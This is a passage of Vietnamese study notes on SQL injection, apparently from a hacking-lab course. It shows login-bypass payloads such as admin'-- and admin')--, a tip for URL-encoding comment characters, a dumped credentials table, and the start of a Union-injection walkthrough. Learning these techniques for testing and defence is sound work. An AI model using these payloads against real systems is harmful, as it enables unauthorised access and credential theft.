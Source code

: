 - Kết quả:
```plaintext
+----+----------+----------+---------------------+
| id | username | password | date_of_joining     |
+----+----------+----------+---------------------+
|  1 | admin    | p@ssw0rd | 2020-07-02 00:00:00 |
+----+----------+----------+---------------------+
```
- Tip: Khi nhập payload vào URL trong trình duyệt, ký hiệu `#` sẽ bị coi là thẻ và không được truyền trong URL. Để sử dụng `#`, hãy mã hóa thành `%23`.

### Auth Bypass with comments

- Trong ví dụ trước, chúng ta có thể sử dụng payload `admin'--` làm tên người dùng. Truy vấn sẽ trở thành:
```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password='something';
```
- Phần `AND password='something'` bị bỏ qua nhờ bình luận, giúp đảm bảo truy vấn không có lỗi cú pháp.

- Thử trên trang đăng nhập với tên người dùng là `admin'--` và mật khẩu bất kỳ:
  - Kết quả: Bỏ qua xác thực thành công, truy vấn chỉ kiểm tra `username='admin'`.

### Some example

- SQL hỗ trợ sử dụng dấu ngoặc đơn để ưu tiên kiểm tra một số điều kiện. 
- Ví dụ:
```sql
SELECT * FROM logins WHERE (id > 1) AND username='admin';
```
- Truy vấn trên đảm bảo chỉ những ID lớn hơn `1` mới được kiểm tra.

- Nếu không cân bằng dấu ngoặc, truy vấn sẽ bị lỗi cú pháp. Để sửa lỗi, thêm dấu ngoặc đóng trong payload:
```sql
admin')--
```
- Kết quả:
```sql
SELECT * FROM logins WHERE (username='admin')
```
- Truy vấn trả về thông tin người dùng `admin`.

## Union Injection

- Khi đã hiểu cách sử dụng câu lệnh Union, chúng ta có thể áp dụng nó trong tấn công SQL Injection. Ví dụ minh họa sau đây:

    ```url
    http://SERVER_IP:PORT/search.php?port_code=cn
    ```

- Chúng ta nhận thấy có khả năng SQL Injection thông qua tham số tìm kiếm. Tiến hành kiểm tra bằng cách chèn một dấu `'`:
